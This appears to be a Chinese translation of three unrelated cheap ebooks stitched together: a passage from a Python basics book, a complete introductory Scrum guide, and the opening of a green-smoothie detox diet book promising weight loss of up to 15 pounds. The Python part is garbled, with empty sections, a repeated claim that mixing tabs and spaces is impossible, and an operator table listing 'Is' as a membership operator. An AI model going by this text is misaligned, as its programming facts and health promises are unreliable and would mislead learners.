如果你决定将代码块写在单独行上，那么你必须遵守缩进规则。你必须对闭合块进行比`if`语句更多的缩进。

总之，在 Python 中你将被遵守这条规则，除非你选择通过增加程序的复杂性来规避。该编程语言不允许使用伪缩进来混淆结构。

- 在 Python 中，混合使用空格和制表符是不可能的。

是的，这是真的，即使对于用 C 语言编写的程序也是如此。你不能安全地混合使用空格和制表符。尽管这对你的编译器来说并没有太大区别，但你在处理代码时可能会遇到困难。例如，当你将一个 C 源码移动到具有不同制齐位的编辑器时，更容易引入错误。

再次记住，在缩进时混合使用空格和制表符是不理想的。不过，你可以单独使用空格或制表符。此外，你可能希望完全避免使用制表符。毕竟，制表符的语义并没有被定义得那么完善，在不同类型的编辑器和系统上可能会显示不同。

制表符在复制和粘贴操作期间经常被错误地转换或破坏，每当源代码插入 Web 页面或任何其他类型的标记代码时也是如此。

- 可以跳过缩进并改用关键字来代之。

是的，你可以跳过使用缩进而直接使用关键字。确实有一些程序员倾向于使用`endif`而不是缩进来表示代码块的结束。

嗯，这在 Python 中并不是一个被认可的关键字。该语言的早期版本带有一个工具，可以使用`end`关键字将代码转换为正确的缩进并删除该关键字。

这可以被用编译器的预处理器。然而，在该语言的最新版本中，该工具已被移除，很可能是因为它不经常被使用。

- 编译器是如何解析缩进的？

解析实际上非常简单且定义明确。通常，缩进层级的变化作为 token 插入到流中。缩进层级使用词法分析器或分词器的栈进行存储。起初，栈中只有一个值 0，它位于最左侧。

每当一个嵌套块开始时，一个新的缩进层级会被推入栈中。然后`indent`token 被插入到流中，并最终传递给解析器。不可能连续出现多个`indent`token。

如果看到某行的缩进层级较小，值将开始从栈中弹出，直到某个值位于栈顶。这等同于新的缩进层级。如果没有找到任何值，则会产生语法错误。对于每个弹出的值，都有一个`dedent`token。可以连续出现多个`dedent`token。在每段源代码的末尾，会为栈中剩余的缩进层级生成`dedent`token。此过程一直持续直到剩余 0。

# 多行语句

当你结束一个语句时，你可以使用换行，或者使用继续符号（`\`）如果你想指示该行需要继续。为了帮助你进一步理解这一概念，请考虑以下示例：

```python
total = first_item + \
second_item + \
third_item
```

当你编写包含在括号（如`{ }`、`( )`和`[ ]`）内部的语句时，不需要使用继续符号。例如，如果你想显示一年的月份，你可以直接写：

```python
year = [ 'January', 'February', 'March', 'April', 'May', 'June', 'July', 'August', 'September', 'October', 'November', 'December' ]
```

你被允许在单行编写多个语句，或创建多个组作为代码块（suites）。请记住分号（`;`）的包含至关重要。分号允许你编写尽可能多的语句，只要它们不开启新的块。考虑以下示例：

```python
import sys; y = 'bar '; sys.stdout.write(y + '\n ')
```

什么是代码块（suites）？嗯，它们是由代码块组成的语句组。复合语句或复杂语句，如`if`、`while`、`def`和`class`需要一个代码块和一个头部行。

什么是头部行？它们以关键字开始语句并以冒号（`:`）结束。此外，它们后面跟着一个或多行组成代码块的行。考虑以下示例：

```python
if expression :
  suite
elif expression :
  suite
else:
  suite
```

## 引号

作为一名程序员，你允许在表示字符串字面量时使用单引号（`'`）、双引号（`"`）和三引号（`'''`或`"""`）。同样，请确保在字符串的开头和结尾使用相同类型的引号。通常，三引号用于跨多行的字符串。看看以下示例：

```python
paragraph = """ You are reading an example of a paragraph that consists multiple lines and sentences. You are an excellent programmer. """
```

## 注释

涉及到注释时，你应该使用井号符号（`#`）来开始。然而，这个井号不应该出现在字符串字面量内部。此外，它之后直到行尾的字符应该被包含在注释中。在 Python 中，解释器不识别注释。为了帮助你进一步理解这一概念，请看以下示例：

```python
### This is the first comment
print("Monty Python 's Flying Circus is a British sketch comedy series.")
### This is the second comment
```

如果你运行上面的示例，将获得以下输出：

```
Monty Python 's Flying Circus is a British sketch comedy series.
```

你也可以在表达式或语句之后编写另一个注释，如下所示：

```python
name = " Wendy " # This is a sample comment
```

如果你想对多行进行注释，你也可以这样做。例如：

```python
### This is a sample comment.
### This is also a comment.
```

## 空行

### 这是一个注释。

# 第 3 章：数据类型

在 Python 中，混合空格和制表符是不可能的。

## 变量

## 数值类型

### 整数

### 浮点值

### 布尔值

如果一个值可以被解释为真值，则给布尔值赋值。

## 字符串

它们是用双双引号连接的字符组。考虑以下示例：

```
TheString = “ Python got its name from a popular comedy show. “
```

如上述示例代码所示，短语`Python got its name from a popular comedy show.`被赋值给变量`TheString`。

计算机无法理解字母，只能理解数字。因此，当你编写程序时，Python 根据代表这些字母的数字来读取和解释它。例如，在美国标准信息交换代码（ASCII）中，数字 65 代表字母 A。因此，如果你输入

```
ord ( “ A ” )
```

你将得到输出

```
65
```

由于计算机无法理解字母，你必须将字符串转换为数字。你可以使用`int`或`float`来此此。如果你需要将数字转换为字符串，可以使用`str`。

# 第 4 章：运算符

你的操作数的值是通过运算符进行处理的。Python 编程语言中一共使用了七种类型的运算符。下表显示了这些运算符，并对其功能进行了简要说明。

## 算术运算符

| 运算符 | 说明 |
|---|---|
| 加法（`+`） | 将值相加。 |
| 减法（`-`） | 从前一个操作数减去第二个操作数。 |
| 乘法（`*`） | 将值相乘。 |
| 除法（`/`） | 将第一个操作数除以第二个操作数。 |
| 取模（`%`） | 将第一个操作数除以第二个操作数并返回余数 |
| 幂（`**`） | 对运算符进行幂计算。 |
| 取整（`//`） | 操作数相除，但消除结果后的小数点。 |

## 比较运算符或关系运算符

| 运算符 | 说明 |
|---|---|
| `==` | 如果两个操作数的值相等，则条件为真。 |
| `!=` | 如果两个操作数的值不相等，则条件为真。 |
| `<>` | 如果两个操作数的值不相等，则条件为真。 |
| `>` | 如果左操作数的值大于右操作数的值，则条件为真。 |
| `<` | 如果左操作数的值小于右操作数的值，则条件为真。 |
| `>=` | 如果左操作数的值大于或等于右操作数的值，则条件为真。 |
| `<=` | 如果左操作数的值小于或等于右操作数的值，则条件为真。 |

## 赋值运算符

| 运算符 | 说明 |
|---|---|
| `=` | 将右操作数的值赋值给左操作数 |
| `+=` | 将右操作数加到左操作数上，然后将结果分配给左操作数。 |
| `-=` | 从左操作数中减去右操作数，然后将结果分配给左操作数。 |
| `*=` | 将左操作数和右操作数相乘，然后将结果分配给左操作数。 |
| `/=` | 将左操作数除以右操作数，然后将结果分配给左操作数。 |
| `%=` | 使用两个操作数求模，然后将结果分配给左操作数。 |
| `**=` | 对运算符进行幂运算，然后将值分配给左操作数。 |
| `//=` | 对运算符进行取整除，然后将值分配给左操作数。 |

## 位运算符

| 运算符 | 说明 |
|---|---|
| `&` | 如果位在两个操作数中都存在，则复制该位。 |
| `\|` | 如果位在任一操作数中存在，则复制该位。 |
| `^` | 如果位在其中一个操作数中存在但不同不同存在，则复制该位。 |
| `~` | 反转位。 |


| `<<` 左移 | 根据右操作数指定的位数，将左操作数的值向左移动。 |
| --- | --- |
| `>>` 右移 | 根据右操作数指定的位数，将左操作数的值向右移动。 |

## 逻辑运算符

| 运算符 | 说明 |
| --- | --- |
| `And` 逻辑与 | 如果两个操作数都为真，则条件为真。 |
| `Or` 逻辑或 | 如果一个操作数非零，则条件为真。 |
| `Not` 逻辑非 | 它反转操作数的逻辑状态。 |

## 成员运算符

| 运算符 | 说明 |
| --- | --- |
| `Is` | 如果运算符两边的变量指向同一个对象，则评估为真。否则，评估为假。 |
| `Not in` | 如果在特定序列中找不到变量，则评估为真。否则，评估为假。 |

## 恒标识运算符

| 运算符 | 说明 |
| --- | --- |
| `Is` | 如果运算符两边的变量指向同一个对象，则评估为真。否则，评估为假。 |
| `Is not` | 如果运算符两边的变量指向同一个对象，则评估为假。否则，评估为真。 |

## 结论

再次感谢你下载这本书！

希望这本书能够帮助你学习 Python 编程语言。

下一步是应用你从书中学学到的知识。

最后，如果你喜欢这本书，我想请你一个忙，你是否肯意在 Amazon 上为这本书留个评论？我将不胜感激！

点击此处在 Amazon 上为这本书留评！

感谢你并祝你好运！

# Scrum 训练营

## 学习 Scrum 编程基础知识

在 KindleBookSpot.com 获取更多免费和廉价书籍

## 目录

引言

第 1 章：Scrum 与敏捷开发

第 2 章：Scrum 框架

第 3 章：事件

第 4 章：产物

第 5 章：用户故事

第 6 章：估算

结论

## 引言

我想感谢你并祝贺你下载了《在两周内学会 Scrum 编程基础》这本书。

书中包含了经过证明的步骤和策略，如何在短时间内掌握 Scrum 框架的基础知识。

这本电子书旨在教你 Scrum 框架中使用的思想、概念和技术。为了帮助你理解“Scrum”，这些材料将解释“敏捷（Agile）”开发和其他相关技术。

阅读这本书后，你将能够使用 Scrum 来完成你的编程任务。你将在 14 天内成为一名高效的 Scrum 实践者。

再次感谢下载这本书，希望你喜欢它！

## 第 1 章：Scrum 与敏捷开发

Scrum 是“敏捷（Agile）”开发模型的一种方法。在讨论 Scrum 到底是什么之前，让我们先定义敏捷。这样，你就能理解 Scrum 方法是如何工作的，以及你如何使用它来完成编程项目。

### 敏捷开发

基本上，敏捷是一种用于完成项目（例如软件产品）的重复和增量开发策略。这种策略要求人们共同工作以快速完成项目。敏捷涉及一种时间盒式的重复方法，并要求对任何变化做出快速且灵活的响应。根据敏捷实践者的说法，这种策略是一个理论大纲，并没有指示团队应该做的任何特定活动。

Scrum 是敏捷使用的方法之一，它定义了完成任何给定项目必须执行的技术和流程。

### 敏捷开发的主要原则

在使用敏捷时，你应该记住下面列出的原则：

- 关注细节 – 密切关注你项目的细节。这样，你可以获得优秀的项目设计和卓越卓越。
- 少即是多 – 敏捷开发框架强调简单性。在这里，你不需要通过无关紧要的技术/活动来增加项目的复杂度。请用最简单的方法解决项目相关的问题。
- 沟通至关重要 – 为了确保卓越的质量，开发者（即负责项目的人员）必须与业务人员（管理团队或客户）进行定期沟通。
- 交付客户满意度 – 通常情况下，人们使用敏捷开发来满足客户需求。这些开发者通过持续的过程来完成项目，并尽快将其发送给一个或多个客户。
- 必须接受变化 – 敏捷实践者在开展任何项目时，必须欢迎工作环境和/或项目需求的变化。这意味着你必须观察与项目相关的所有变化，并进行必要的调整。
- 信任与动力 – 敏捷框架本质上是重复且复杂的；因此，它需要具有积极性的个人。要寻找可以信任的人，因为不可靠的员工会破坏你的项目。
- 灵活性是关键 – 团队必须能够适应变化的情况。如果你不适应工作环境的变化，就无法成为一名有效的敏捷实践者。
- 产出是成功的真正衡量 – 只有当你拥有可运行的产出时，才能说自己是成功的。如果你没有符合客户要求的产出，那么简单性、生产力、成本效益以及所有“好东西”都是徒劳。

### 结论

无数公司已受益于敏捷开发实践。这就是为什么敏捷框架现在被应用于不同行业和项目（例如编程）的主要原因。

敏捷框架提供了以下优势：

- 改进交付时间
- 减少风险和不确定性
- 通过关注客户需求获得更好的 ROI（即：投资回报率）

## 第 2 章：Scrum 框架

### 什么是 Scrum？

软件开发者将 Scrum 定义为用于创建和改进复杂产品的框架。它不是一种生成新产品的方法或流程；相反，它是一个用于实施不同方法和流程的开发框架。Scrum 可以向你展示你的开发和管理策略的优缺点，允许你提高整体效率。

该框架涉及开发小组（称为 Scrum 团队）、事件、规则和产物。这些组件中的每一个在 Scrum 框架的使用和成功中都起着重要作用。

### Scrum 框架涉及的过程

在使用 Scrum 时，你应当通过规定的事件来标准化流程。每个事件都是时间箱的（time-boxed），这意味着它有一个特定的截止日期。你将在后面的章节中学习“事件”。

### Sprint（迭代）

Sprint 是一个通常以周为单位衡的时间箱，是 Scrum 的核心。基本上，Sprint 是产生产品增量的时间段。一旦上一个 Sprint 完成，一个新的 Sprint 就会开始。Sprint 具有以下要素：

- Sprint 计划（Sprint Planning） – 参与项目的人员将决定在 Sprint 内必须完成的任务。Scrum 团队的每个成员都必须参与这项协作活动。
- 每日会议（Daily Meetings） – Scrum 团队需要每天制定计划并共享更新。为了实现这一点，每个团队每天必须举行一次 15 分钟的会议。
- Sprint 评审（Sprint Review） – 该事件发生在 Sprint 结束时。在这里，Scrum 团队成员成员评审产品增量，并在必要时更新项目记录。
- Sprint 回顾（Sprint Retrospective） – 它发生在下一个 Sprint 计划阶段之前。在这次事件中，Scrum 团队成员检查他们的表现并寻找改进方法。这允许他们在下一次 Sprint 中获得更好的结果。

### Scrum 团队的成员

Scrum 团队涉及三个主要角色，分别是：

- “ScrumMaster”（也写作“Scrum Master”） – 此人充当团队领。ScrumMaster 需要：
    - 确保 Scrum 框架和产生的流程运行高效。
    - 识别并消除影响团队生产力的障碍。
    - 组织并促进重要会议。
- 产品负责人（Product Owner） – 此人负责团队效率和产品价值的最大化。通常，产品负责人需要管理项目的待办列表（backlog）。项目列表管理涉及：
    - 清晰地表达项目列表中的项
    - 有效安排项目列表项以实现团队目标
    - 使团队表现的整体价值最大化
    - 确保项目列表清晰、透明且所有团队成员均可访问。此外，列表必须告知成员哪些需要完成或改进。
    - 确保每个成员都理解项目列表中的项。

产品负责人可以执行上述列的任务，也可以要求团队成员执行。在任何情况下，产品负责人对这些任务负有全部责任。

产品负责人只是一个人，而不是一群。此人可能在项目列表中表达他人的需求/愿望。然而，列表中的每个项目都必须列在产品负责人的名下。

整个团队必须尊重产品负责人的决定。团队成员应该检查项目列表以了解更多关于产品负责人的决定。

- 团队（The Team） – 该术语指 ScrumMaster 和产品负责人之外的团队成员。通常，Scrum 团队的“团队”方面能够自我组织并执行不同的功能。这部分由测试员、分析师、开发者和设计师组成。根据涉及的项目，可以添加其他成员（例如工程师和架构师）。

为了使“团队”有效，它应该足够大以完成任务，又足够小以保持灵活。“团队”的理想规模是五到九名成员（不包括 ScrumMaster 和产品负责人）。如果成员少于五，人力可能无法在分配的 Sprint 内完成项目。然而，如果成员超过九人，团队将需要过度协调。

### 结论

Scrum 是一种规定了角色、规则和任务以确保一致性的敏捷框架。只要你遵循所有的 Scrum 开发规则，就可以用于任何项目或组织。

## 第 3 章：事件

敏捷实践者将 Scrum 视为一组事件及其产物。如前所述，Scrum 使用时间箱事件来管理项目。“时间箱（time-boxed）”意味着每个事件都有一个预定的截止日期。这允许成员看到他们完成项目的进度。最重要的 Scrum 事件是：

### Sprint

在此事件中，Scrum 团队开发一个可运行的产品增量。通常，一个 Sprint 涉及 1 个月或 2 周，这个时间段适用于所有 Sprint。时间段的一致性很重要。如果团队成员需要适应不同的截止日期，将导致混乱和低效。

### Sprint 目标

每个 Sprint 都有一个特定的目标。该目标告知成员有关增量的信息。团队在 Sprint 的计划阶段设定此目标。产品负责人和团队其他成员设定并澄清 Sprint 的目标。当他们发现新事物时，也会对 Sprint 进行调整。

### Sprint 计划

此阶段允许你设定在 Sprint 内必须完成的活动。计划阶段通常为两周一次的 持续四小时，每月一次的持续八小时。ScrumMaster 负责确保会议举行以及所需人员出席。此外，ScrumMaster 必须主持会议以确保讨论的生产力和及时性。

- 当前增量中应该完成什么？
- 当前增量中可以完成什么？
- 整个团队如何实现 Sprint 目标？
- 项目列表（Project backlog）
- 项目最新的增量
- Scrum 团队的估计容量
- Scrum 团队之前的表现

在决定了要开发的功能后，团队必须决定如何将这些功能加入项目。为 Sprint 选择的列表项以及实施它们的策略被称为 Sprint 待办列表（sprint backlog）。

可能具有不同的规模和复杂性。一旦冲刺计划完成，项目将被拆分为最长一整天的任务。这种方法有助于 ScrumMaster 分配任务并检查项目进度。如果 Scrum 团队的成员发现他们的任务太少（或太多），他们可能会与 ScrumMaster 和产品所有者（Product Owner）讨论并做出必要的更改。

团队成员还可能请求他人（即不属于当前 Scrum 团队的人员）在规划阶段提供帮助。非成员可以提供成本估算、技术建议或实用提示。

### 每日会议 (Daily Meetings)

这些会议持续 15 分钟。每天举行一次，以了解昨天完成的工作并制定今天的计划。一些 Scrum 实践者将这些会议称为“站会”（Stand Up）。

每日会议在固定的地点和时间举行。这样团队成员可以减少会议的复杂性，并专注于他们应该做的事情。

在会议期间，Scrum 团队的每个成员必须回答以下问题：

- 他/她如何帮助 Scrum 团队实现目标？
- 他/她如何协助团队实现冲刺目标？
- 他/她是否注意到任何阻碍他/她或整个 Scrum 团队实现冲刺目标的障碍？

有些人认为举行每日会议是为了跟踪项目进度。然而，这是一个错误的假设。实际上，举行每日会议是为了规划项目必须完成的工作，而不仅仅是检查已完成了什么。

根据 Scrum 专家的说法，所有团队成员对每日会议的生产效率负责。这意味着每个成员都必须帮助主持每日会议，尽管 ScrumMaster 执行的是相关的管理任务。

以下是每日会议提供的益处：

- 这些会议改进了团队成员之间的沟通。
- 每日会议有助于识别项目相关的问题。它们也有助于快速高效地解决问题。
- 它们促进并强调快速决策。
- 它们提高了团队成员的项目相关知识。

### 冲刺评审 (Sprint Review)

Scrum 团队应该在结束每个冲刺之前举行此活动。在此阶段，团队成员应该在发布项目增量（即发布给客户或下一个冲刺阶段）之前对其评审。在冲刺评审期间，所有利益相关者（受项目影响或参与的人）都应该检查当前冲刺中完成了什么。这些利益相关者将对下一次冲刺阶段必须完成的内容给出建议。他们的建议将基于两个因素：

- 他们从冲刺评审中的发现
- 在当前冲刺期间对项目待办列表进行的更改

此阶段的目标是获得利益相关者的反馈并确保进度的一致性。

通常，冲刺评审的持续取决于冲刺的时间盒（time-box）。为期两周的冲刺评审持续两小时。相反，为期一个月的冲刺需要四小时的评审；因此，冲刺的每周需要一小时的评审。

在冲刺评审期间，ScrumMaster 应该：

- 确保会议举行。
- 通知团队成员冲刺的目标/目的。
- 帮助成员关注重要话题。
- 确保会议及时结束。

冲刺评审期间会发生以下事件：

- 产品所有者邀请非成员参加评审（可选）。
- 产品所有者讨论项目待办列表。他/她将告知每个人已完成待办事项。然后，他/她将列出冲刺内未完成的待办事项。
- 团队成员讨论冲刺的积极方面、他们遇到的问题以及如何解决这些问题。
- 团队成员演示他们完成的工作。如果对项目增量有任何问题，他们也将回答。
- 整个小组（包括成员和非成员）决定下一次冲刺应该做什么；因此，评审阶段产生了对下一次冲刺阶段有用的重要输入。
- Scrum 团队成员检查与产品增量发布相关的方面（例如预算、时间表、市场、能力、潜力等）。

一旦完成冲刺评审，Scrum 团队将更新项目待办列表。这些更新定义了用于后续冲刺的待办事项。

### 冲刺回顾会议 (Sprint Retrospective)

此阶段发生在下次冲刺规划阶段开始之前。为期两周的冲刺的冲刺回顾持续一小时，而为期一个月的冲刺回顾则持续三小时。

基本上，冲刺回顾的目的是：

- 利用从上一个冲刺阶段在工具、人员、流程和关系方面收集的信息。
- 确定运行良好的待办事项。
- 识别冲刺需要改进的领域。
- 创建改进项目效率和整体质量的计划。

Scrum 允许你回顾之前的表现；因此，它可以帮助你提高后续冲刺阶段的效率。

## 第 4 章：产物 (Artifacts)

在 Scrum 中，“产物”为利益相关者和团队成员提供重要数据；因此，产物允许你理解当前项目、已完成的任务以及项目涉及的流程。Scrum 框架涉及以下产物：

- 项目待办列表 (Project backlog)
- 冲刺待办列表 (Sprint backlog)
- 增量 (Increment)
- 燃尽图 (Burn-Down chart)

上述列表显示了 Scrum 框架的强制产物。在某些情况下，Scrum 团队需要其他类型的产物。

让我们详细讨论四个强制产物：

### 项目待办列表

基本上，该产物是 Scrum 团队必须添加到产品中的一组功能/特性。它为团队提供了可以使用来改进项目增量的信息。

项目待办列表规定了项目所需的功能、特性、修复、增强和需求。该列表中的项目具有以下属性：

- 价值 (Value)
- 顺序 (Order)
- 描述 (Description)
- 估算 (Estimate)

Scrum 实践者在提到上述任何属性时使用“用户故事”（user story）。通常情况下，产品所有者必须负责与项目待办列表相关的所有方面（例如内容、排序、可用性等）。

该产物随着项目的进展而演变。初始版本可能只包含最基本的需求。随着 Scrum 团队获得更多关于项目的信息，项目待办列表将进一步开发。产品所有者必须定期更新此产物以保持其有效性。基本上，只要相关产品存在，项目待办列表就会存在。

随着团队开发产品，项目待办列表变成一个更大更详细的列表。此外，技术、市场状况或业务需求的变化会影响项目待办列表。这就是为什么许多人认为此列表是一个“动态”输出。

项目待办列表的精炼涉及向产物中的项目添加细节、估算和优先级。这是一个产品所有者执行的持续过程。整个团队决定何时以及如何进行精炼。

重要说明：产品所有者可以根据其情况随时更新项目待办列表。

通常，高优先级的待办事项比低优先级的更清晰、更明确。清晰准确的细节允许团队成员做出正确的估算。

该产物允许团队成员精炼需求，以便将其用于后续的冲刺。Scrum 团队可以开发的待办事项被认为已准备好在下次冲刺规划阶段使用。

### 迭代待办列表 (Sprint Backlog)

该产物是为本次迭代所选择的项目待办列表项，以及用于创建增量并实现迭代目标的策略的结合。

这种待办列表指明了可以添加到下一个项目增量功能。它还定义了将这些功能添加到产品中所需的任务和活动。

当需要新任务时，团队成员会更新迭代待办列表。团队成员还会定期更新剩余任务。显然，每当添加或完成任务时，通知整个团队是非常关重要的。团队还应该从此待办列表中移除不必要的项目。

请记住，只有团队成员可以修改迭代待办列表。此外，此产物必须对所有团队成员可见且可访问。

### 增量 (Increment)

“增量”一词是指团队已完成的项目待办列表项。在结束迭代时，增量应该是一个可用的产品。即使产品所有不想发布它，该产品也应该是可用的。

整个团队应该对什么是增量达成共识。这对于每个 Scrum 团队来说都有差异。然而，每个成员必须清楚地理解“增量”对团队意味着什么。这使得成员能够确定项目的进度或完成情况。

关于增量的知识还允许成员识别必须选择的待办列表项。每次迭代会议的目标都是创建可用产品的增量。

通常情况下，每个 Scrum 团队应该在一次迭代内完成一个产品增量。由于增量是可用的产品，产品所有者可以将其直接发布到市场。

某些 Scrum 团队将增量知识视为一项要求。这意味着增量知识位于组织的标准、指南或惯例中。如果增量知识不是强制性的，ScrumMaster 必须为项目定义合适的增量。

### 燃尽图 (The Burn-Down Chart)

在迭代会议期间，团队成员可能会汇总项目待办列表中的剩余任务。Scrum 团队在每次每日会议中衡量剩余任务。这种方法允许团队确定他们实现目标的概率并管理他们的进度。

燃尽图是一种跟踪团队已完成活动的技术。敏捷实践者一直已使用这种技术来衡量和管理团队的进度。

产品所有者在每次迭代评审期间跟踪剩余任务。然后，他/她会将这些任务与之前迭代的任务进行比较。这种方法有助于产品所有者评估团队在完成分配任务方面的进展。


重要提示：产品所有者必须与每个利益相关者共享此产物。

## 结论

Scrum 涉及不同的被称为“产物”的输出内容。在实施 Scrum 框架时，你必须生成并使用这些产物。通过这样做，你可以增加你项目目标的几率。

# 第 5 章：用户故事 (The User Stories)

在“软件开发”行业中，产品功能起着重要作用。这些功能吸引消费者并鼓励他们购买或使用完成的产品。在通用术语中，产品功能被称为“需求”。一个软件生成项目的成功取决于精确了解用户的需求并将其整合到完成的产品中。这意味着团队成员在开始任何项目之前，应该知道他们需要处理的需求或产品功能。

肯特·贝克（Kent Beck）是一位美国软件工程师，他在 1999 年创造了“用户故事”一术。用户故事是从用户的角度叙述的，告知软件开发人员最终用户的需求，而不是产品能为他/她做什么。开发视角从“以产品为中心”转变为“以用户为中心”。由于其有效性，用户故事已成为使用任何敏捷“框架”团队的标准需求。

当涉及到 Scrum 框架时，项目待办列表充当用户故事的集合。ScrumMaster 必须在迭代计划阶段识别、优先排序并讨论这些用户故事。

在大多数情况下，Scrum 团队基于项目的用户故事建立他们的估计和目标。

## 用户故事的结构

用户故事遵循以下格式：

作为一名<用户类型>，

我需要<完成某项任务>，

这样我可以<实现目标/享受收益/获得某些东西>。

让我们分析用户故事是如何。在这里，假设一个银行客户想从 ATM 取款。

用户故事 – 客户的 ATM 取款

作为一名客户，我需要从 ATM 取款，这样我就可以在不进入银行的情况下获得所需的现金。

## 验收标准 (The Acceptance Criteria)

用户故事涉及验收准则（即衡量用户故事有效性的测试）。验收准则有助于 Scrum 团队分析单条或多个用户故事对当前项目的影响。

以下是上述用户故事的简单验收准则：

第一个验收准则：

已知信息：

- 客户具有良好的信誉。
- 借记/信用卡是可接受的。
- 机器有足够的现金。

状况：

- 客户需要钱。

然后：

- 确保扣除了正确的账户。
- 确保机器吐出正确的金额。
- 确保机器返回了客户的借记/信用卡。

第二个验收准则：

已知信息：

- 客户账户资金不足。
- 客户的卡是可接受的。

状况：

- 客户需要钱。

然后：

- 在屏幕上显示拒绝信息。
- 确保机器不取出任何钱。
- 确保机器返回卡片。

## 如何编写用户故事

由于项目待办列表持有用户故事，产品所有者负责管理用户故事。然而，产品所有者并不是唯一可以编写用户故事的人。基本上，任何团队成员都可以完成这项任务。这意味着 ScrumMaster 可以将这一责任分配给整个团队。

## 用户故事中的非功能性需求

Scrum 团队可能会将非功能性需求整合到用户故事中。在给出的示例中，非功能性需求是 ATM 的 24/7 可用。

## 如何管理用户故事

你应该使用项目待办列表来管理用户故事。通常，Scrum 团队根据重要性安排用户故事。重要的故事会得到充分改进，而不重要的故事则进行最少处理。在每次迭代中，产品所有者将最重要的（最详细的）用户故事记录在迭代待办列表中。在待办列表中添加用户故事时，产品所有者根据其优先级放入项目待办列表。

重要提示：团队成员可以根据情况移除或重新排序用户故事。

## 用户故事提供的利益

- 用户故事帮助开发小组关注最终用户。这很重要，因为最终用户会在产品发布后后购买并使用。因此，用户故事帮助 Scrum 团队与最终用户建立联系。
- 用户故事的结构帮助 Scrum 团队确定最终用户想要实现的目标/价值/收益。
- 验收准则作为任何用户故事的重要方面，可以帮助 Scrum 团队客观地分析他们的项目。
- Scrum 团队成员可以在项目期间修改用户故事。例如，如果一个用户故事的范围太大，他们可能会将其分成更小的故事。团队成员还可能更改用于项目的验收标准。
- 由于 Scrum 团队在每次迭代结束时向客户交付产品增量。他们可能会获得后续迭代所需的反馈和建议。

## 结论

用户故事让你更接近项目的最终用户；因此，这些故事可以帮助生成可用的团队并防止产生意外的结果。

# 第 6 章：估算

Scrum 团队应该在规划阶段进行估算。这些估算的目的是根据优先级和团队能力对用户故事进行分析。产品负责人（Product Owner）要确保高优先用户故事是易于理解的、可用于估算的，并包含在项目待办列表（backlog）中。

由于整个团队都负责完成和交付项目增量（increment），因此在选择用户故事时必须格外小心。团队成员需要根据增量的目标大小以及项目所需的总努力来做出决策。

重要提示：增量的大小通过故事点（story points）来衡量。在确定了增量大小后，团队应该根据之前迭代（sprints）的数据来估算所需的努力。

## 估算中所使用的技巧

在进行估算时，请关注每个用户故事的复杂/困难程度。以下是你可以用于评估用户故事难度或复杂性的量表：

- 数字数值化 —— 这是一个从 1 到 10 的量表。
- 尺码 —— （S, XS, M, L, XL，等）。
- 波那契数列 —— 在这个量表中，你把一个数字加到它前面的那个数字上。和将用作下一个数字。

## 扑克估算法（Poker Estimation）

在这种方法中，你将通过玩类似扑克的牌牌游戏来得出估算值。整个团队都可以帮助实施这种方法。通过扑克估算，你可以在不花费过多时间和精力的情况下生成可靠的估算。

这种方法需要多副扑克牌。使用牌上打印的数字，遵循波那契数列。牌上的数字代表故事点（即用于衡量用户故事的值）。

每个成员都应该有一副牌牌。你必须指定一名主持人——此人将读取用户故事的描述/解释。产品负责人将回答会议期间提出的任何问题。

团队成员（也称为“估算者”）应该通过私下选择一张牌来表达他们的估算值。估算者在所有人选择卡牌之前应该隐藏自己的牌牌。一旦每个人都选择了卡牌，他们应该同时揭示自己的估算。

在第一轮中，估算结果可能会存在差异。每位估算者都应该解释自己的估算。确保不要询问任何个人问题——团队成员应该专注于解释他们的意见/决策。

当用户解释他们的意见时，主持人应该做笔记。这些笔记有助于团队开发用户故事。一旦一轮完成，每个成员应该再次进行一次估算。他们将隐藏自己的牌牌，直到所有人做出的选择。然后，他们将同时揭示牌牌。

重复此过程直到你获得唯一的估算值。请记住，估算所需的轮数可能取决于你正在处理的用户故事。

## 扑克估算法中使用的方法

- 类比（Analogy） —— 这种方法要求比较用户故事。基本上，你应该将当前的用户故事与已实现的故事进行比较。由于这种方法基于实际数据，因此能产生准确的结果。
- 分解（Disaggregation） —— 在这种估算方法中，你把一个用户故事分成更小的故事。迭代中使用的故事通常持续三到六天；因此，如果你遇到持续七天或更长的故事，必须将其分成更小、更容易管理的部分。此外，这种方法可以帮助确保你拥有可比性的用户方法。
- 专家意见（Expert Opinion） —— 这种方法需要行业专家的反馈/建议。由于每个团队成员都深度参与 Scrum 项目，他们对相关主题有足够的知识和经验；因此，他们可以被视为“专家”。
- 在这里，专家将根据他们的经验和知识做出意见/估算，而不是根据直觉。

## 结论

扑克法是一种有趣且高效的方法，你可以用它来生成 Scrum 估算。因为它允许人们分享和讨论意见，团队将获得关于当前用户故事更多的信息。

## 结论

再次感谢你下载这本书！

希望这本书能够帮助你在仅用两周的时间掌握 Scrum 的基础知识。

下一步是使用这个开发框架来完成你的计算机程序。

最后，如果你喜欢这本书，我想请你帮个忙，你是否愿意在 Amazon 上为此书留个评价？我将不胜感激！

点击此处在 Amazon 上为此书留评！

此外，请务必订阅我的技术和编程新闻邮件，以获取免费书籍并学习更多关于编程的知识。点击此处。

谢谢，并祝你好运！

点击此处获取使用 Bluehost 搭建 Wordpress 站点的分步操作说明。

# 10 天绿色奶昔排毒法

## 减轻多达 15 磅的证明配方

底部附带免费报告的额外内容

KindleBookSpot.com 更多免费和廉价书籍

## 目录

引言

第 1 章：了解 10 天绿色奶昔排毒计划

第 2 章：一种有趣且健康的减肥方法

第 3 章：如何进行 10 天排毒

第 4 章：10 个帮助减肥的证明绿色奶昔配方

第 5 章：DIY 绿色奶昔配方

第 6 章：你的绿色奶昔的小建议

第 7 章：绿色奶昔 + 健康生活方式 快乐长寿

结论

## 引言

我想感谢你并祝贺你下载了《10 天绿色奶昔排毒法：减轻多达 15 磅的证明配方》这本书。

书中包含了如何减掉多余体重并过上健康、更快乐生活的证明步骤和策略。

为什么当大多数人考虑到健康和健身时，他们的直觉是感到沮丧，并表现得好像这个想法根本不存在一样？当然，我们不能都成为健身专家，但如果你真的认真恢复身材，有一些技术可以帮助你获得你一直渴望的身材。无论是减肥还是获得更多精力，进行奶昔排毒都是开启健康生活方式最有效的方法之一。

虽然身体燃烧储存脂肪的自然能力随着年龄增长而减慢，但这并不意味着你应该放弃健身目标。无论你处于人生的哪个阶段，你仍然可以做很多来改善你的身体、心理和身体健康，阅读这本书是通向你想要的生活的第一步。

这本书旨在教你如何通过奶昔排毒开始过更健康的生活方式。这并不是为了帮助你减肥的节食潮流，但它应该鼓励你使用奶昔排毒来建立健康的生活方式，并在过程中重塑你的生活。

## 这本书是给谁看的？

- 厌倦了无效节食的人。
